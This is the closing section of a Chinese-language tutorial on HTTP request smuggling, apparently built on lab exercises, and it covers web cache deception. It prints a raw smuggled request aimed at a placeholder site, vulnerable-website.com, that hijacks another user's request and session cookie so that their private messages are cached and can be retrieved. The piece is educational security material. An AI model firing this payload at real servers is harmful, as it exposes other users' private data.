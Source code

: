 

## Perform Web Cache Deception

缓存欺骗，和上面的缓存投毒差不多，有一点区别。

>    网络缓存中毒和网络缓存欺骗有什么区别？
>
>   在 Web 缓存中毒中，攻击者使应用程序在缓存中存储一些恶意内容，并将这些内容从缓存中提供给其他应用程序用户。
>   在网络缓存欺骗中，攻击者使应用程序将属于另一个用户的一些敏感内容存储在缓存中，然后攻击者从缓存中检索这些内容。

比如，如下请求：

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 43
Transfer-Encoding: chunked

0

GET /private/messages HTTP/1.1
Foo: X
```

这个走私的请求会使用`Foo: X`吃掉下面一个请求的第一行，并且这个请求还会带着用户的 Cookie 去访问，类似于一个CSRF，该请求变成了以下请求头：

```http
GET /private/messages HTTP/1.1
Foo: XGET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com
Cookie: sessionId=q1jn30m6mqa7nbwsa0bhmbr7ln2vmh7z
```

多发送几次后如果用户访问的是静态资源，有一定几率被Front服务器存下来，就可以拿到用户`/private/messages`的信息了。

# END.

花了好久终于写+复现完了，好了好了 ，搞其他东西去了。





一些参考链接：

>   https://blog.zeddyu.info/2019/12/05/HTTP-Smuggling/
>
>   https://regilero.github.io/tag/Smuggling/
>
>   https://paper.seebug.org/1048/